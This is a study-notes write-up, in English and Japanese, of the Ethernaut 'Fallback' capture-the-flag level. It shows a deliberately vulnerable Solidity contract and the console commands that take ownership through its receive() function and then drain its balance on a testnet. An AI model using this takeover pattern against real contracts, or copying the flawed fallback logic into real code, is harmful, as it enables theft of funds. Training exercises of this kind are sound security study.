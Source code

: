 Ethernaut 
1. Fallback

1.you claim ownership of the contract <br>
2.you reduce its balance to 0

How to send Ether when intracting with an ABI
How to send Ether outside of the ABI 
Converting to and from wei/Ether units 
Fallback methods 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```

1. you claim ownership of the contract 

contract...reference of our smart contract 
n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}

contract.address //smartcontract address 
'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'
player //my address 
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}
//Array 0: 0 。現状no valueなのがわかる

await contract.getContribution()
//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 
//1ETH send 
contract.contribute({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//1ETH sendでaccount valueが増えているか確認 key:value
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
//Array 0: 1 。

//ownerの確認
await contract.owner()//this smartcontract own address
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'

//playerの確認 = まだownerになってない
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

//sendTransaction is special function from web3.js 
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//transaction
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177


//Transactionの成功によりcontractのownerが自分にchangeされているのを確認
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'



2.you reduce its balance to 0
//balanceの確認
await getBalance(contract.address)
'0.000000000000000002'

//function withdrawをreturn
//transfer all balance our wallet!
contract.withdraw()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68

//balanceが"0"になっているのを確認
await getBalance(contract.address)
'0'

